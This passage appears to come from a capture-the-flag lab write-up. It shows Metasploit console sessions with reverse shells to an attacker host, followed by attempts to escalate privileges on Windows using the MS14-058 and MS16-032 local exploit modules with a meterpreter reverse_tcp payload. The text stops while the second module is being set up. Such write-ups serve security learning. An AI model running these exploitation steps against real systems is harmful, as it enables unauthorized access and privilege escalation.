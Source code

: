 ```

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x64/windows  Microsoft Windows [Version 6.3.9600] (c) 2013 Microsoft Corporation. All righ...  10.10.x.x:4444 -> 10.10.10.8:49166 (10.10.10.8)
  2         shell x64/windows  Microsoft Windows [Version 6.3.9600] (c) 2013 Microsoft Corporation. All righ...  10.10.x.x:4444 -> 10.10.10.8:49167 (10.10.10.8)
  3         shell windows                                                                                        10.10.x.x:4444 -> 10.10.10.8:49168 (10.10.10.8)
```

## 5. First Attempt on MS14-058 & MS16-032
Upon getting a regular shell, let's try to elevate it with the Metasploit modules!

First we try with `MS14-058`:
```
msf5 > use exploit/windows/local/ms14_058_track_popup_menu
[*] Using configured payload windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms14_058_track_popup_menu) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf5 exploit(windows/local/ms14_058_track_popup_menu) > set target 1
target => 1
msf5 exploit(windows/local/ms14_058_track_popup_menu) > show options
...
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set lport 4545
lport => 4545
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set session 1
session => 1
msf5 exploit(windows/local/ms14_058_track_popup_menu) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 10.10.x.x:4545 
[-] Exploit failed: NoMethodError undefined method `reverse!' for nil:NilClass
[*] Exploit completed, but no session was created.
```
Ah, SESSION may not be compatible with this module. This module was not successfully run.

Let's try `MS16-032`:
```
msf5 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
[*] Using configured payload windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > show targets
...
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set target 1
target => 1
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > show options
...
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set lport 4545
lport => 4545
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set session 1
```
